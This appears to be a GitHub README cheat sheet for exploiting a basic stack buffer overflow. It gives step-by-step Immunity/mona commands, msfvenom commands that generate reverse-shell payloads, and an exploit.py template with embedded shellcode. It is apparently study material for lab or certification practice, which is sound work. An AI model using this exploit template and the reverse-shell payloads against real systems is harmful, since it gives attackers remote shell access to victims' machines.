 # Very basic version (no ASLR no DEP)

<br>

__Immunity Debugger__ :  https://debugger.immunityinc.com/ID_register.py
<br>
__Mona__ : https://github.com/corelan/mona/archive/refs/heads/master.zip
<br>
<sub>mona directory has to be with all the the other python scripts</sub>
<br>
<br>
<br>
<br>
__Order to proceed__ :
<br>
```
INTRO - in Immunity : !mona config -set workingfolder c:\<choose>\%p

1 - Find how many bytes to crash the app
2 - Generate cycle chars => /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bytes2crash> 
                      or => msf-pattern_create -l <bytes2crash>
3 - Find EIP address
4 - Find offset => /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_address> -l <bytes2crash>
5 - Modify exploit.py
6 - Test previous result with "BBBB" to check if EIP take the good ASCII value (42424242 = BBBB)
7 - Generate badchars (CF badchars.py)
8 - Generate same but in Immunity : !mona bytarray -cpb "\x00"
9 - Copy the output of step 7 in exploit.py and send
10 - Immunity : !mona compare -f c:\<your_folder>\<your_app_name>\bytearray.bin -a <ESP_address>
11 - Remove badchars (1 by 1) resend & recheck until "unmodified" : !mona bytearray -cpb "\x00\x..\x.." and so on
12 - Once everything if ok, find esp jmp address : !mona jmp -r esp
     and write it in exploit.py (Little Endian)
```
![image](https://user-images.githubusercontent.com/97956863/201435014-512d7c22-d8c3-40d1-bef8-fb77a5bfaba7.png)

```
13 - Craft payload :
          msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -b "\x00\x...." -f py
                           /x64/
          msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x...." -f py          
14 - Copy output to exploit.py
15 - Send & Enjoy
```


## mona short CheatSheet

```
!mona config -set workingfolder c:\<folder>\%p
!mona bytearray -cpb "\x00"
!mona compare -f c:\<folder>\<app_name>\bytearray.bin
!mona jmp -r esp 
```

## msfvenom short CheatSheet

```
cycl    : /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bytes2crash> | or | msf-pattern_create -l <bytes2crash>
offset  : /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_address> -l <bytes2crash>
payload : msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -b "\x00\x...." -f py
                           /x64/
          msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 EXITFUNC=thread -e x86/shikata_ga_nai -b "\x00\x...." -f py 
```
<br>
<br>
<br>
<br>

## exploit.py

```
#!/usr/bin/env python2

import socket, sys

ip = sys.argv[1]

port = 9999

offset = ""
esp = "" #little endian here
nop = "\x90" * 20

buf =  b"" #crafted payload here 
buf += b"\xdb\xcd\xd9\x74\x24\xf4\xbb\x67\x65\x06\x7c\x5d"
buf += b"\x33\xc9\xb1\x12\x31\x5d\x17\x03\x5d\x17\x83\x8a"
buf += b"\x99\xe4\x89\x65\xb9\x1e\x92\xd6\x7e\xb2\x3f\xda"
buf += b"\x09\xd5\x70\xbc\xc4\x96\xe2\x19\x67\xa9\xc9\x19"
buf += b"\xce\xaf\x28\x71\xdb\x44\xcc\xe3\xb3\x58\xd2\xf2"
buf += b"\x1f\xd4\x33\x44\xf9\xb6\xe2\xf7\xb5\x34\x8c\x16"
buf += b"\x74\xba\xdc\xb0\xe9\x94\x93\x28\x9e\xc5\x7c\xca"
buf += b"\x37\x93\x60\x58\x9b\x2a\x87\xec\x10\xe0\xc8"

msg = "A" * offset
msg += esp
msg += nop
msg += buf


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try :

        s.connect((ip, port))
        print "[+] Connected.\nSending buffer...."
        s.send(bytes(msg + "\r\n"))
        print "Done."

except Exception as e :
        print e

```

## badchars.py

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
